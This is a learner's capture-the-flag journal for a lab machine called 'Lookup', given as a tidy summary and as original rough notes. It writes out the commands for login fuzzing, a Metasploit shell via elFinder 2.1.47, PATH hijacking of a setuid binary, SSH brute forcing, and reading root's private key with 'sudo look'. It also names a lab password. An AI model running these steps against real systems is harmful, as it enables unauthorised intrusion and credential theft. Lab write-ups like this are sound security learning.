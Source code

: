 # Lookup CTF Journal Entry

### Challenge Rating: Easy

**Challenge:**  
Through "Lookup," hackers can master the art of reconnaissance, scanning, and enumeration to uncover hidden services and subdomains. They will learn how to exploit web application vulnerabilities, such as command injection, and understand the significance of secure coding practices. The machine also challenges hackers to automate tasks, demonstrating the power of scripting in penetration testing.  

**Skills:**  
- Web fuzzing with `ffuf`  
- Burp Suite request manipulation (limitations in free edition)  
- Exploit research with `searchsploit` and Metasploit modules  
- Gaining shell access via vulnerable elFinder version (2.1.47)  
- Privilege escalation with PATH poisoning (`/usr/sbin/pwm`)  
- Using Hydra for SSH brute forcing  
- Understanding `$PATH` hijacking mechanics  
- Extracting sensitive files with `sudo look`  
- SSH key abuse for root access  

**Notes:**  
- Target IP: `x.x.x.x`  
- Attempted Burp Suite, but free edition was too slow/limited.  
- Found local Kali wordlists under `/usr/share/wordlists/`.  
- Used `ffuf`:  
  ```bash
  ffuf -c -w /usr/share/wordlists/fasttrack.txt -u http://lookup.thm/login.php \
  -X POST -H "Content-Type: application/x-www-form-urlencoded" \
  -d 'username=admin&password=FUZZ' -fw 8
  ```  
  Broke down flags to understand purpose (`-c` color, `-w` wordlist, `-X POST`, etc.).  

- Discovered elFinder 2.1.47 exploit with `searchsploit`.  
- In Metasploit:  
  - `search elfinder` → found module  
  - Set RHOST and LHOST  
  - Shell established → gained access as `www-data`.  

- Inside `/etc/passwd`, saw user `think` (UID 1000). Shadow file locked.  
- Explored `/usr/sbin/pwm` binary → root-owned, setuid.  
- Learned PATH hijacking:  
  ```bash
  export PATH=/tmp:$PATH
  echo 'echo "uid=1000(think)"' > /tmp/id
  chmod +x /tmp/id
  ```  
  Running `pwm` tricked system → revealed `.passwords`.  

- Used Hydra to crack SSH for `think`:  
  ```bash
  hydra -l think -P think.txt -t 4 ssh://x.x.x.x
  ```  
  Password found: **[redacted]**  

- First flag: `[redacted]`  
- Checked `sudo -lS` → special command `look` available.  
- Used it to dump root SSH key:  
  ```bash
  LFILE=/root/.ssh/id_rsa
  sudo look '' "$LFILE"
  ```  
- Copied key, fixed perms with `chmod 600`, and logged in:  
  ```bash
  ssh -i id_rsa root@<serverIP>
  ```  
- Root flag: `[redacted]`  

**Takeaways:**  
- Metasploit workflow finally clicked.  
- PATH hijacking is now burned into memory — classic Linux PE vector.  
- Need to get a better notepad + package manager for Kali.  
- Next time: explore **LinPEAS** for faster privilege escalation checks.  



---
orginial notes:
<details>
    lookup notes
    ip = [redacted]
    tried a bunch of different things I don't quite udnerstand, and some of the walkthroughs don't help, htey just jump to where they did the sutff. which sucks.
    I tried burp suite, and while I believe it would be easier, it is liminted in it's free edition and slow
    I tried ffuf and found my local word lists in kali linux under the share/wordlist folder
    i tried the commmand ffuf -c -w /usr/share/wordlists/fasttrack.txt -u http://lookup.thm/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d 'username=admin&password=FUZZ' -fw 8  
    -c to colorize it, -w wordlist, -u target url, -X POST a post request (post is update or change server via http request), -d is to specify which data to http site, so we have the username set to wqual amdin and the password is being fuzzed to find it
    so, since we found the password ot admin is password123 and it doesn't work, that's odd! let's find other usernames
    , my notepadd crashed and I lsot all my notes!
    I learned that bsically all the info in the files seems to be junk, that the elFinder database has an exploit for it's version and that linux as a SEARCH OF EXPLOIT program baked in. searchspoilt...awesome, but before i knew that I went to the exploit finder website, found the explit for elFidner 2.1.47 and downloaded it.
    so a lot of differnet ways to do this, with searchspolit we found it and if we type in msfconsole, we load a program we dan use
    i learned we can use metasplot and use > search and find the program so we look for elfinder with > search elfinder
    we see that there are sever matching modules, lets use 4, which is what we found the otehr way for a php issue
    NOTE TO SELF: take a metasploit class to learn the ends and outs
    we need to set the RHOST, or receving target, in meta splot, so I did RHOST and the ip we have
    we do thisb y doiung set rhosts [redacted]
    then we have to set our pc, lhost to our ip of [redacted]
    trying different files and such, we find the link files.lookup.thm for rhost works when we run it, now where hate metepreter showing
    so we do ls and we're iun!
    NOTE TO SELF: find a better notepad and package manager. Jesus christ these defaults are awful
    did some digging inside the server and we got to the /etc folder, where sys config files and control behavior of the os are stored
    when we copy and look into this folder, we find a passwd file
    looking here we find root and a user name think with a value 1000 meaning an
    we don't know the password for think, but we do know that it's stored in the shadow file, which we can't access. Let's find our next step. Let's look inside thinks folders, maybe the user flag is there or the user left their password on a note


under that file, which we've alreayd looked at, we see a user.txt file but we can't access it yet, there is also a passwords file

I just noticed that php has a shell command, I used shell and now it's more link linux. Awesome. 

I tried to grep for passwords but didn't have permissions

I used find / -perm -4000 2>/dev/null and found a list of files. 

tried su think, to change but the nopassword hint didn't work

Doing some digging and studying, I found that if we use the ID cmd we can see what we can do and also find the path to the id. We look and we see we don't have a password file, maybe we can use $PATH to escalte privlegaes
 
when we use the find / -perm -4000 2>/dev/null command again we see that there is one odd folder, the /usr/sbin/pwm isn't normally there, let's look at it

using ls -la /usr/sbin/pwm we see: -rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm

so root owns it. if we try to execute it with bash it says bash cna't run a binary file, so let's try just using it. we gett a few [!] notes with running 'id' comd to exgtra the username and user ID (UID) nad out ID of www-data and an itneresting not with the [-] the file /home/www-data/ .passwords not found

 this binary seems to execute the “id” command, and then extracts the username out of it, and then puts that username into “/home/<username>/.passwords” and tries to do something with it.

If the “id” command is not specified with it’s full path (/bin/id), it is found and executed via the PATH variable in our environment.

I've used these commands because we see I can copy and we try to do this to make a malicious file

we can use PATH poisioning here. I like that, poison, nice like a diablo 2 necormancer. Anyway, we can find who we are nad the right which "which id" 

This shows the real id command path (usually /usr/bin/id).
Now, manipulate $PATH:

export PATH=/tmp:$PATH
Create a fake id in /tmp:

echo 'echo "uid=1000(think)"' > /tmp/id
chmod +x /tmp/id



PATH hijacking is one of the “usual suspects” you’re trained to look for in Linux PE. (LinPEAS even auto-checks for it.).
lets use linPEAs next time

SIDE NOTE: LEARN about path hijacking in depth nad how it works.

OOOOO! The reason this works is becasue we used the export command to put the PATH link AFTER /tmp:$PATH. This way it checks the tmp first and gives us the rights we want!

running the /usr/sbin/pwm command now, we get a list we can use to ffuf/hyrda to crack into the "think" account!

we used the hydra command to try find which  password would log into think. we use  hydra -l think -P /home/kali/Desktop/think.txt  -t 4 ssh://[redacted]

pw: josemario.AKA(think)

first flag! "[redacted]"

if we do sudo -lS we can see that we have the special command look

we use the look command to find the root ssh security key, we find it under root with:

LFILE=/root/.ssh/id_rsa

sudo look '' "$LFILE"

there we find the id_rsa file, we copy that to our desktop change, chagne hte permissions with chmod 600 "filename"

then we log into the system via root and this key with ssh -i <filename> root@<serverIP>

BANG! We're in! found the root pass 

"[redacted]"


</details>

